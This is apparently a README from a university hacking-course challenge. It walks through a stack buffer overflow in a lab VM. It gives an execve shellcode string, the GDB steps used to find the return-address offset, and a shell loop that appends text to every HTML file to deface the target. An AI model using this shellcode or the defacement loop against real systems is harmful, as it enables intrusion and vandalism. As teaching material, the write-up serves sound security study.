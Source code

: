 # NU CHALLENGE (INF473X The Hacking Xperience)

## Run commands

Run `./overflow_buffer_attack` to open a fake terminal of the VM. Then, type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` to add `YOUR NAME` at the bottom of the HTML page.


## Explanations
The vulnerability used is a buffer overflow. When the VM asks for a name, the user simply gives it a too long name to the point where the return address at the end of function `parse` is overwritten. This return address is then modified to point toward the beginning of the buffer (that stores the user's input) and execute malicious instructions in it. Here, the malicious instructions are launching a shell and modify all HTML files as done in the Mu challenge.

The shellcode used is `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` (ref [here](https://shell-storm.org/shellcode/files/shellcode-806.php). The rest of the memory is filled by the no-operation instruction `\x90` to reach the return address.

## GDB Tests

### Proof of overwrite

Let's use GDB (a debugger tool) to better understand what's happening in the stack memory. We'll be using the c program _test_gdb.c_ which is a simplified version of the source code of the application. Once it is compiled with the command `gcc -m32 -fno-stack-protector -z execstack test_gdb.c -o test_gdb`, we can run gdb using `gdb test_gdb`.

First of all, let's try to run the program and feed it a too long name with the command `r < attack.txt` (_attack.txt_ contains a 200-long string of letters 'A' and can be generated with Python `python3 -c 'print("A"*200)' > attack.txt`). Gdb replies a segmentation fault :
```
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
`0x41414141` is supposed to be the return pointer and is now not recognised. Moreover, 41 turns out to be the hexadecimal code for the letter 'A' which isn't a coincidence. Indeed, the return pointer was overwritten by the user's input as the latter entered a too long name.

### Exploitation

Let's dig deeper and try to count the exact number of letters 'A' needed to overwrite the return pointer with the sequence one wants. This count is simply the distance between the return pointer and _greeting_text_ + 12 (the 12 first characters are already written : _"Hello, dear "_). To find the return pointer's position in the stack, I put a break at the beginning (at the `push` level) of the function `parse` with the command `b *0x########` (in my case `b *0x56556231` and can be access when `parse` is disassembled  : `disas parse`). When running the program, it stops at this break and at this moment the stack pointer is the return pointer. So the return pointer's position can be access with :
```
gdb-peda$ x/xw $sp
0xffffcf1c:	  0x565562d6
```
Now, all that remains is to find _greeting_text_'s position in the memory. The function `strcat` takes two arguments one of which is our interest variable. I put another break at the level of `strcat`, run the program until this second break and display the two arguments of `strcat` (`dumpargs` works only with GDB Peda) :
```
gdb-peda$ dumpargs
Guessed arguments:
arg[0]: 0xffffce90 ("Hello, dear ")
arg[1]: 0xffffcd90 ('A' <repeats 200 times>...)
```
The distance between the return pointer and _greeting_text_ can be calculated as such :
```
gdb-peda$ p/d 0xffffcf1c - 0xffffce90
$2 = 140
```

Let's verify this count by generating a new _attack.txt_ : `python3 -c 'print("A"*128 + "BBAB") ' > attack.txt`. Go back to gdb and run the program `r < attack.txt` :
```
Stopped reason: SIGSEGV
0x42414242 in ?? ()
```
We still get a segmentation fault but this time, the return pointer has been successfully modified to `42414242` which corresponds to the hexadecimal code of "BBAB".

### Structure of the stack memory
```
| ############## BUFFER ############### | ###### GREETING_TEXT ###### | # SOMETHING # | # RETURN ADDRESS # |
|                 256                   |             128             |       12      |         6          |
```
